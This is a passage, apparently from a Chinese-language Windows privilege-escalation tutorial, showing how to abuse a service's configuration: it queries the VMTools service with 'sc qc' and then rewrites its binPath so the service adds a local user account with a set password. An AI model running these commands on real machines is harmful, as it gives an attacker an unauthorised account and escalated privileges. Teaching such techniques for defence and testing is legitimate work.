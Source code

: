 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104057.png-water_print](assets/1699411459-bf76ea4aee79f5870a1d7575ac23e855.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104057.png-water_print")

-   查看该服务启动时的权限

`sc qc VMTools`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104148.png-water_print](assets/1699411459-b48b696aff16da0aeb8c08e3ff3839ab.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127104148.png-water_print")

-   然后修改执行文件路径为我们想要执行的命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 注意这里的"="后面要留有空格<br>sc config VMTools binPath= "net user test1 abc123! /add"  <br><br># 查看查询该服务的执行路径是否修改成功<br>sc qc VMTools  <br>``` |
